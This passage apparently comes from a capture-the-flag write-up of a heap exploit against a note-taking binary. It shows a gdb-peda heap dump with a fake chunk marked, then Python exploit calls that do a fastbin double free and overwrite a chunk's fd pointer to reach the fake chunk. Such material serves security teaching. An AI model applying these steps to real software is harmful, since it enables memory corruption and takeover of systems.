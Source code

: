 ```sh
0x555555758110:	0x0000000000000000	0x0000000000000000
0x555555758120:	0x0000000000000000	0x0000000000000000
0x555555758130:	0x0000000000000000	0x0000000000000000
gdb-peda$ 
0x555555758140:	0x0000000000000000	0x0000000000000021 -> Chunk 2 , from which we leaked heap
0x555555758150:	0x00005555557580f0	0x0000000000000070 
0x555555758160:	0x0000000000000000	0x0000000000000081
0x555555758170:	0x3232323232323232	0x3232323232323232
0x555555758180:	0x3232323232323232	0x3232323232323232
0x555555758190:	0x3232323232323232	0x3232323232323232
0x5555557581a0:	0x3232323232323232	0x3232323232323232
0x5555557581b0:	0x3232323232323232	0x3232323232323232
0x5555557581c0:	0x3232323232323232	0x3232323232323232
0x5555557581d0:	0x0000000000000000	0x0000000000000021 -> Fake chunk
gdb-peda$ 
0x5555557581e0:	0x0000000000000000	0x0000000000000021 -> Chunk 3 whose size we are interested in corrupting
0x5555557581f0:	0x0000555555758210	0x0000000000000070
0x555555758200:	0x0000000000000000	0x0000000000000081
0x555555758210:	0x0000000033333333	0x0000000000000000
0x555555758220:	0x0000000000000000	0x0000000000000000
0x555555758230:	0x0000000000000000	0x0000000000000000
0x555555758240:	0x0000000000000000	0x0000000000000000
0x555555758250:	0x0000000000000000	0x0000000000000000
0x555555758260:	0x0000000000000000	0x0000000000000000
0x555555758270:	0x0000000000000000	0x0000000000000000

```

After all this , our fastbin now just  **4->1** , call **double free** on chunk 1 to re-add it to fastbin.

So our fastbin should look like , **1->4->1** with which we can edit the fd of our chunk 1 and point it to our fake chunk and get our fake chunk after that.

```py
    free(1) #Double Free here
```

If we call **add** now ,it will take our chunk **1** as head which we dont want. so let's free chunk 3 before we call malloc.

```py
    free(3)
```

Now fastbin should be like **3->1->4->1**. Subsequent call to **Add Note** should take chunk **3** for header and chunk **1** for note.

We can overwrite the fd with our fake chunk's addr

```py
    fake_chunk = heap_base + 0x1d0
    add(0x10,p64(fake_chunk)) #5
```
